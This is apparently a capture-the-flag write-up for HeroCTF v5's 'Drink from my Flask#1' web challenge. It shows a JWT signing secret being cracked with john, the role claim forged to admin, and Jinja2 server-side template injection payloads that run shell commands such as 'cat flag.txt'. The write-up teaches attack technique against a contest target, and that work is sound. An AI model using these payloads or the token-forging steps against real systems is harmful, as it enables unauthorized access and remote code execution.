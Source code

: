 # Drink from my Flask#1

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 87 solves / 168 points
- Difficulty: Medium
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

A friend of yours got into an argument with a flask developer. He tried handling it himself, but he somehow got his nose broken in the process... Can you put your hacker skills to good use and help him out?  
  
You should probably be able to access the server hosting your target's last project, shouldn't you ? I heard is making a lost of programming mistakes...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185709.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185720.png)

In here, we need to supply `op`, `n1`, `n2` GET parameters, otherwise it'll return "Invalid operation".

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513185901.png)

When we go to `/`, it'll set a new cookie called `token`, and it's a JWT (JSON Web Token).

> Note: It's highlighted in green is because of the "JSON Web Tokens" extension in Burp Suite. 

**JWT Decoded:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513190019.png)

As you can see, it's using algorithm HS256, which is HMAC + SHA256. In the payload section, **it has a `role` claim, it's currently set to `guest`.**

**Hmm... Since HS256 is a symmetric signing key algorithm, we can try to brute force the signing secret.**

**To do so, I'll use `john`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|19:06:17(HKT)]
└> john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
[...]
key              (?)     
[...]
```

**Nice!! We successfully cracked the signing secret: `key`!!**

Now, we can sign our modified JWT via [jwt.io](https://jwt.io/)!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191014.png)

But what value should we modify in the `role` claim?

Hmm... Don't know yet.

**Let's try to provide `op`, `n1`, `n2` GET parameters in `/`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513191526.png)

Maybe we can do command injection??

But nope, I tried.

**Then, I try to go to a non-existance page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192018.png)

And oh! We found the admin page!

**We now shouldn't able to visit the admin page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192042.png)

**Now, as the JWT signing secret was found, let's modify the `role` claim to `admin`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192146.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192212.png)

Umm... What? Just that?

**In those 404 page and `/adminPage`, it's vulnerable to reflected XSS:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192718.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192805.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513192753.png)

However, those aren't useful for us... Our goal should be finding sever-side vulnerability...

**I also noticed this weird error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513193501.png)

> "Anormaly long payload"

After poking around, I have no idea what should I do...

Ah! Wait, how do the 404 page is rendered?

**You guessed! Flask is using a template engine called "Jinja2":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211612.png)

Nice! We can try to gain Remote Code Execution (RCE) via Server-Side Template Injection (SSTI)!

## Exploitation

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping), we could gain RCE via the following payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211927.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513211933.png)

Ahh... I now know why the "Anormaly long payload" exist...

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:45(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 34)")
<h2>/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was not found</h2><br><p>Only routes / and /adminPage are available</p>                                                                                                       ┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:47(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 35)")
Anormaly long payload
```

As you can see, the path is limited to 34 characters.

**So... We need to craft a SSTI payload that less than 35 characters.**

**To bypass that, we can **use the `config` object instance in Flask.** This object instance stores the server's configuration:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513213012.png)

**In that object instance, it has a method called `update`, which add/update an attribute in that object instance:**
```python
config.update(key=value)
```

That being said, we can use the `update()` method to save some characters!

However, I don't wanna go through that painful route!

**Do you still remember we have reflected XSS in `/adminPage` with the JWT's `role` claim?**

**Does it have any character limit AND vulnerable to SSTI?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220228.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220235.png)

Nice!! That `/adminPage` doesn't have any character limit!

**Let's try to gain RCE again:**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -lah').read() \}\}
```

> Note: Once again, the above payload is from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) 

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220657.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220703.png)

**Let's read the flag!!**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() \}\}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220758.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513220810.png)

- **Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`**

## Conclusion

What we've learned:

1. Cracking JWT Secret & Exploiting RCE Via SSTI
